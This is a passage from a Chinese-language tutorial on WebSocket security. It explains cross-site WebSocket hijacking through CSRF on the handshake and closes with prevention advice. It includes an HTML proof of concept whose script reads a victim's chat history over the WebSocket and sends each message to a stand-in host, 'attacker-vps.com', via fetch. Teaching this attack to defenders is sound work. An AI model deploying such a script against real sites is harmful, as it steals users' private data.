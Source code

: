 
例如，以下WebSocket握手请求可能容易受到CSRF的攻击，因为唯一的session token是在cookie中传输的：


```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```


> 注意:`Sec-WebSocket-Key` 请求头包含的随机值主要用于防止代理服务器缓存错误，并且不用于身份验证或会话处理目的。



如果WebSocket握手请求易受CSRF的攻击，则攻击者的网页可以执行跨站点请求，与易受攻击的服务器后端接口建立WebSocket。 攻击中接下来发生的事情完全取决于应用程序的逻辑以及它如何使用WebSockets。 攻击可能涉及：


- 发送WebSocket消息以代表受害用户执行未经授权的操作。
- 发送WebSocket消息以检索敏感数据。
- 有时，可能只需要等待包含敏感数据的消息发送过来。

例如，一个跨站WebSocket劫持读取用户聊天记录的POC如下，用户在建立WebSocket连接后，向服务器发送'READY'字符串，即可接收到服务器传来的历史聊天记录。

```html
<html>
<script>
// Create WebSocket connection.
var ws = new WebSocket("wss://vulnerable-site.com/chat");

// Connection opened
ws.addEventListener('open', function (event) {
    ws.send('READY');
});

// Listen for messages
ws.onmessage = function(event) {
  fetch('https://attacker-vps.com/?log'+event.data, {mode: 'no-cors'})
};
</script>
</html>
```

# WebSocket安全问题分析(四)——如何预防WebSocket的安全问题


- 将通过 WebSocket 接收的数据在两个方向都视为不可信的。在服务器端和客户端安全地处理数据，以防止基于输入的漏洞，如 SQL 注入和跨网站脚本。
- 使用CSRF Token、请求头令牌等方案保护WebSocket握手流程，防止WebSocket握手流程被CSRF攻击所利用。
- 使用`wss://`协议，（基于TLS的Websockets）
- 硬编码WebSockets的URL接口，以保证用户的输入无法篡改此URL。
